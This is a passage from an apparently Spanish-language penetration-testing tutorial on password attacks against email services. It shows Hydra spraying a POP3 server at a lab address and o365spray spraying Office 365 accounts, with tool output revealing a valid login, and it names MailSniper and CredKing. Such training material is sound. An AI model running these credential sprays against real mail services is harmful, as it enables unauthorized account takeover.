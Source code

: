 ```bash
[ * ] All enumerated accounts can be found at: '/opt/o365spray/enum/enum_tested_accounts.2204130948.txt'

[2022-04-13 09:48:10,416] INFO : Valid Accounts: 2
```

---

## Password Attacks

Podemos usar `Hydra` para realizar un password spray o fuerza bruta contra servicios de correo electrónico como `SMTP`, `POP3` o `IMAP4`. Primero, necesitamos obtener una lista de nombres de usuario y una lista de contraseñas y especificar qué servicio queremos atacar. Veamos un ejemplo para `POP3`.

### Hydra - Password Attack

```bash
hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-04-13 11:37:46
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 67 login tries (l:67/p:1), ~5 tries per task
[DATA] attacking pop3://10.10.110.20:110/
[110][pop3] host: 10.129.42.197   login: john   password: Company01!
1 of 1 target successfully completed, 1 valid password found
```

Si los servicios en la nube soportan los protocolos SMTP, POP3 o IMAP4, podríamos intentar realizar password spray utilizando herramientas como `Hydra`, pero estas herramientas generalmente son bloqueadas. Podemos intentar usar herramientas personalizadas como [o365spray](https://github.com/0xZDH/o365spray) o [MailSniper](https://github.com/dafthack/MailSniper) para Microsoft Office 365 o [CredKing](https://github.com/ustayready/CredKing) para Gmail o Okta. Ten en cuenta que estas herramientas deben estar actualizadas porque si el proveedor de servicios cambia algo (lo cual sucede a menudo), las herramientas pueden dejar de funcionar. Este es un ejemplo perfecto de por qué debemos entender qué están haciendo nuestras herramientas y tener el conocimiento para modificarlas si no funcionan correctamente por alguna razón.

### O365 Spray - Password Spraying

```bash
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz

            *** O365 Spray ***            

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  msplaintext.xyz
   > spray          :  True
   > password       :  March2022!
   > userfile       :  usersfound.txt
   > count          :  1 passwords/spray
   > lockout        :  1.0 minutes
   > spray_module   :  oauth2
   > rate           :  10 threads
   > safe           :  10 locked accounts
   > timeout        :  25 seconds
```